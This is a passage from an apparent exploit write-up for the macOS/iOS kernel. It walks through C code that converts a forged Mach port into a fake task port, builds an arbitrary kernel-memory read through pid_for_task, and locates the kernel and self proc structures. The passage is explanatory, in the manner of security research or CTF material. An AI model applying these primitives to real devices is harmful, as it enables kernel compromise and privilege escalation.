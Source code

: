 Remember that we have a fake port already and we also have a `mach_port_t` points to that port we have. So we can achieve arbitrary kernel memory reading by using `pid_for_task`.

```c
uint32_t read_kernel(mach_port_t port, void *faketask, uint64_t addr) {
	uint32_t res;
	*(uint64_t *)(faketask + 0x380) = addr - 0x10;
	pid_for_task(port, &res);
	return res;
}
```

Now, convert our fake port to a task port.

```c
	fakeport->io_bits = IKOT_TASK | IO_BITS_ACTIVE;  // cast fakeport to a task
	fakeport->io_references = 0xff;
	char *faketask = ((char *)fakeport) + 0x1000;
```

Set the `kobject` to our faketask

```c
	*(uint64_t *)(((uint64_t)fakeport) + 0x68) = faketask;
	*(uint64_t *)(((uint64_t)fakeport) + 0xa0) = 0xff;
	*(uint64_t *)(faketask + 0x10) = 0xee;
```

Now we can find kernel proc and our own proc.

```c
	printf("[*] try to find kernel proc\n");
	uint32_t proc_offset = 0, r1, r2;
	uint64_t kernel_proc = 0, self_proc = 0;
	while (1) {
		uint64_t n;
		r1 = read_kernel(port, faketask, allproc);
		r2 = read_kernel(port, faketask, allproc + 0x4);
		memcpy((char *)&n, &r1, sizeof(uint32_t));
		memcpy((char *)&n + 4, &r2, sizeof(uint32_t));

		uint32_t proc = read_kernel(port, faketask, allproc + 0x10);		// pid is located at the offset of 0x10
		if (proc == getpid()) {
			self_proc = allproc;
			printf("[+] found self proc pid=%d addr=0x%llx\n", proc, self_proc);
		} else if (proc == 0) {
			kernel_proc = allproc;
			printf("[+] found kernel proc pid=%d addr=0x%llx\n", proc, kernel_proc);
		}
		allproc = n;		// next pointer is at the offset of 0

		if (self_proc != 0 && kernel_proc != 0) break;
	}
```
